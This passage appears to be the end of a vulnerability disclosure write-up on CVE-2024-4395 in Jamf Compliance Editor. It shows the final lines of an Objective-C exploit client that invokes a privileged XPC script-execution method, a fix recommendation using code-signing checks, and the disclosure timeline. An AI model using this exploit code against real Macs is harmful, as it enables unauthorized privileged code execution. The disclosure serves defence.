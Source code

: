 ```objc
        [service executeScriptAt:command arguments:arguments then:^(NSString *result, NSError *error) {
            if (error) {
                NSLog(@"Error: %@", error);
                returnCode = 1;
            } else {
                NSLog(@"Result: %@", result);
            }
            [serviceConnection invalidate];
            exit(returnCode);
        }];

        [[NSRunLoop currentRunLoop] run];
    }
}
```

And with that, the exploit works!
![](/images/posts/2024-05-01-CVE-2024-4395/Exploit%20-%20Demo.png)


## Reporting Process

Following the [Jamf Vulnerability Disclosure Program](https://www.jamf.com/security/vulnerability-disclosure/), we advised Jamf to add [`setCodeSigningRequirement`](https://developer.apple.com/documentation/foundation/nsxpcconnection/3943309-setcodesigningrequirement?language=objc) during the client connection process. Do note that `setCodeSigningRequirement` requires macOS 13.0, Ventura, or newer to use, which Jamf Compliance Editor already requires as a minimum. If your XPC service requires older OS support, use [`SecCodeCheckValidity`](https://developer.apple.com/documentation/security/1396726-seccodecheckvalidity?language=objc).

* Also notice the triage time? 3 minutes!!!

| Sender    | Topic                                                        | Date                          |
| :-------- | :----------------------------------------------------------- | :---------------------------- |
| RIPEDA    | Initial Report - 90+30 Day Disclosure                        | 1:45pm - February 21st, 2024  |
| Jamf      | Triaged, severity P2                                         | 1:48pm - February 21st, 2024  |
| Jamf      | Author of program notified, confirmed patch within 90 days   | 2:07pm - February 21st, 2024  |
| Jamf      | Patch created, ready to test                                 | February 23rd, 2024           |
| RIPEDA    | Verified patch works, request for PKG distribution           | February 23rd, 2024           |
| Jamf      | Confirmed PKG in process of being signed and notarized       | February 29th, 2024           |
| Jamf      | Final PKG created, ready to test                             | March 14th, 2024              |
| RIPEDA    | Confirmed PKG resolves issue                                 | March 15th, 2024              |
| Jamf      | JCE 1.3.1 releases                                           | March 19th, 2024              |
| Jamf      | Notified us of 1.3.1                                         | March 20th, 2024              |
